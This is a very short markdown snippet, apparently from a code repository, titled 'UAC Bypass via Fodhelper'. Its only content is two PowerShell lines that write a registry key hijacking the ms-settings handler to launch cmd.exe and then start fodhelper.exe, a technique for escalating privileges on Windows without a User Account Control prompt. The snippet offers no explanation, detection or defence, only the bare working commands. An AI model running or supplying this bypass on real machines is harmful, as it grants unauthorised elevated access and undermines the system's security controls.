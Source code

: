 # UAC Bypass via Fodhelper

```powershell
reg add HKCU\Software\Classes\ms-settings\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f
start fodhelper.exe
```